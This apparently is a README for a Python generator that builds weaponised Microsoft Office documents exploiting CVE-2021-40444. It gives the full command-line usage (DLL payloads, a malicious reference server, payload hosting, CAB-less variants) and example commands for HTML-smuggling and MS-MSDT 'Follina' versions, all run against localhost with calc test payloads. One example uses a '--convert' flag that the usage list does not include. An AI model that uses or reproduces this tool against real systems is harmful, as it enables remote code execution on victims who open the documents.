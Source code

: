 # Usage

The generator is trivial to use, and even if it has been tested with a number of different payloads and Windows
versions, it is not fail-proof. I'm encountering different behaviours across different Windows builds. As soon as
I have more details to share, I'll post them here.

```
usage: generator.py [-h] -P PAYLOAD -u URL [-o OUTPUT] [--host] [-c COPY_TO] [-nc] [-t]

[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]

optional arguments:
  -h, --help            show this help message and exit
  -P PAYLOAD, --payload PAYLOAD
                        DLL payload to use for the exploit
  -u URL, --url URL     Server URL for malicious references (CAB->INF)
  -o OUTPUT, --output OUTPUT
                        Output files basename (no extension)
  --host                If set, will host the payload after creation
  -c COPY_TO, --copy-to COPY_TO
                        Copy payload to an alternate path
  -nc, --no-cab         Use the CAB-less version of the exploit
  -t, --test            Open IExplorer to test the final HTML file
```

# Example

* Generate the original exploit and test it locally

```
python generator.py -u http://127.0.0.1 -P test\calc.dll --host 
```
_Note: the port is selected by the URL, and the exploit is generated basing on the payload file extension_

* Generate the CABless exploit with RAR and test it locally via IE

```
python generator.py -u http://127.0.0.1 -P test\job-jscript.wsf --no-cab --host -t 
```

* Generate the CABless exploit (IE-only) with HTML smuggling and test it locally via IE

```
python generator.py -u http://127.0.0.1 -P test\calc.js --no-cab --host -t 
```
* 
* Generate the CABless exploit leveraging MS-MSDT (Follina attack), in both DOCX and RTF docs

```
python generator.py -u http://127.0.0.1 -P test\calc.ps1 --no-cab --host --convert
```
